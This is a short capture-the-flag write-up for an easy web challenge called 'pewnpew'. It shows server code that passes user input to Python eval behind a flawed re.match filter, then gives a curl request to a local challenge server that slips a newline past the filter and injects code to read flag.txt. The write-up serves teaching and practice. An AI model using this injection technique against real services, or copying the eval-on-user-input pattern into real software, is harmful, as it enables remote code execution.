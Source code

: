 ```yaml
---
layout: post
title: pewnpew writeup
tags: web
image:
  path: /assets/pewpew/preview.webp
  alt: image alternative text
categories: web
---
```

## Introduction
This is the writeup for an easy challenge in the DefenSYS club CTF 2024

### Code analysis
we see this line here where `user_code` is supplied by the user to an eval function that will execute python code:
`result = eval(user_code)`

but before that there is a strict regex that will stop us from entering any characters in `user_code`:
```python
if re.match(".*[\x20-\x7E]+.*", user_code):
	return jsonify({"output": "PEW PEW you can't use chars"}), 403
```

## Solution
`re.math` if used against multiple lines it will check only the first line so the solution is to simply enter an empty new line and then in the second write our payload

* run the following curl command : 
```bash
curl -X "POST" http://127.0.0.1:1337/pew -d "pew=
open('flag.txt').read()"
```


